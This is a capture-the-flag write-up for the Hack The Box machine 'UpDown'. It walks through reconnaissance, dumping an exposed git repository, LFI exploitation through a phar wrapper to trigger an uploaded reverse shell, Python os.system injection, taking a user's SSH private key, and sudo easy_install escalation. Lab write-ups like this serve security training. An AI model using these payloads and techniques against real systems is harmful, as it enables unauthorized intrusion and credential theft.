# [UpDown](https://app.hackthebox.com/machines/UpDown)

```bash
nmap -p- --min-rate 10000 10.10.11.177 -Pn  
```



After detection of two open ports (22,80) , let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.177 
```




From page of application, I add ip address into '/etc/hosts' file as 'siteisup.htb'




Let's do directory enumeration via `feroxbuster` tool.

```bash
feroxbuster -u http://siteisup.htb -x php
```




I found `/dev/.git` folder on web application.




To get all data from here, I need to use [git-dumper](https://github.com/arthaud/git-dumper)

I use this script as below.
```bash
python3 git_dumper.py http://siteisup.htb/dev/.git/ /home/kali/Desktop/website/
```




I found `.htaccess` value for dev website that for access purposes, I need to add HTTP request header.




Special-Dev: "only4dev"


For this, I will use this [tool](https://addons.mozilla.org/en-US/firefox/addon/modify-header-value/) to add HTTP request header automatically for each request.




Now, I can access application which is actually during development phase.




I found LFI vulnerability on development application, so that `page` parameter can be infected via PHP wrappers , example is `expect` to execute system commands.






But I cannot turn into reverse shell.


While trying to upload, txt file, I cannot see them on `/uploads` folder due to delete restrictions.

That's why I bypassed this adding a file as compressed ( using `zip`)

```bash
echo "note" > note.txt
zip dr4ks.dr4ks note.txt
```

Now, I can see my file.




Now, let's upload our reverse shell into machine.

1.First, let's create malicious php file.

2.Second, let's `zip` this file.
```bash
zip rev.dr4ks dr4ks.php
```



3.Then, browse our payload as below by using `phar` PHP wrapper which I find LFI.
```bash
curl http://dev.siteisup.htb/?page=phar://uploads/fafdc27087ad17f9556931741b560be7/rev.dr4ks/dr4ks
```




I got reverse shell from port (1337).




Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo ;fg
export TERM=xterm
export SHELL=bash
```




I found dev Python scripts in folder called '/home/developer/dev', it means it belongs to `developer` user.



While analyzing binary via `strings` command, I see that 'siteisup_test.py' scripts works also.




Let's run and inject payload into here,
```bash
__import__('os').system('id')
```



Hola, it worked, let's add  shell payload.
```bash
__import__('os').system('bash')
```




Again, I cannot read flag, but I find a solution that I grab private key of this user from his `.ssh` directory.



Let's login into machine as 'developer' user by using his private key (id_rsa) file.

```bash
chmod 600 id_rsa
ssh -i id_rsa developer@10.10.11.177
```


user.txt




For privilege escalation, I just check via `sudo -l` command.




That's `easy_install` binary, I found exploits of this binary on [GTFObins](https://gtfobins.github.io/gtfobins/easy_install/#sudo)

I did all steps and it worked.


root.txt

